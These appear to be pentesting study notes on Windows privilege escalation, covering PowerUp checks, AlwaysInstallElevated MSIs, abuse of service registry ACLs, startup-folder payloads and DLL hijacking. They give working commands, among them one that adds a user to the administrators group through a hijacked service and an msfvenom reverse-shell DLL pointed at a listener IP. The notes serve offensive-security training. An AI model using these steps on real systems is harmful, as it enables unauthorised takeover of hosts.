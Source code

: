 #### PowerUp.ps1
`Import-Module ./PowerUp.ps1`
- `. .\PowerUp.ps1`
Then `Invoke-AllChecks`
- Check Abuse Function which gives necessary command

#### Registry Escalation:
- `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer` 
- `reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`
 - If either of these are set to 1, you can run any msi with elevated permissions.  Make an MSI and execute it.  
 - PowerUp checks for this. 
	 - Note that you may need to execute any file written after running the Abuse Function. 
	 - Can also just create a .msi with msf. 
 
#### Service Escalation - Registry (TCM)
Example for the regsvc service:
- Powershell on target: `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`
	-  take note if we have `NT AUTHORITY\INTERACTIVE Allow Full Control` for this service. If we do we can make a malicious executable run a command. 
- create a malicious .c file and compile it: 
	- Example: 
	- take an existing file and replace the command used by the system() function to: `cmd.exe /k net localgroup administrators $user /add`
	- `x86_64-w64-mingw32-gcc $exploit.c -o $exploit.exe`
	- this adds the $user to the administrators group
- `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d $exploit.exe /f`
- `sc start regsvc`

#### Escalation Via Executable Files (TCM)
- PowerUp.ps1
- It will give a ServiceName, Path, ModifiablePath, ... and AbuseFunction
- Take $servicename.exe and replace the existing version in the modifiable path

#### Escalation via Startup Applications
- `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`
- Generate the exe wth msfvenom
- Put the exe in the above folder
- Need to reboot or have an administrator log in/out
- Probably won't see this in CTF or lab environment

#### DLL Hijacking
Go into process monitor and set filters for "Path ends with .dll" and "Result is NAME NOT FOUND"
- We can overwrite if we can control the service and if the folder is writable
	- If we have a vulnerable service called dllsvc:
	1. `sc start dllsvc` (or stop first, then start)
	2. Then check ProcMon
	3. `msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll`
	4. Then stop and start again
- https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking
